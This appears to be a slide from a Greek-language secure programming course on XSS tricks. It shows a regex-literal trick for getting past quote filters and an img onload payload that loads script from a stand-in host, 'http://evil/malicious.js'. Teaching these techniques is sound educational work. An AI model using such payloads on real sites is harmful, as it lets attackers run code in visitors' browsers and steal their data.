

# XSS Tricks
Πώς παρακάμπτουμε τα filtered quotes με regular expressions?
regexp = /SecProg is boring/;
alert(regexp.source);

Πόσο κώδικα μπορούμε να εισάγουμε;
<img src='http://www.safe.com/blank.gif'
onload='document.scripts(0).src="http://evil/malicious.js"'/>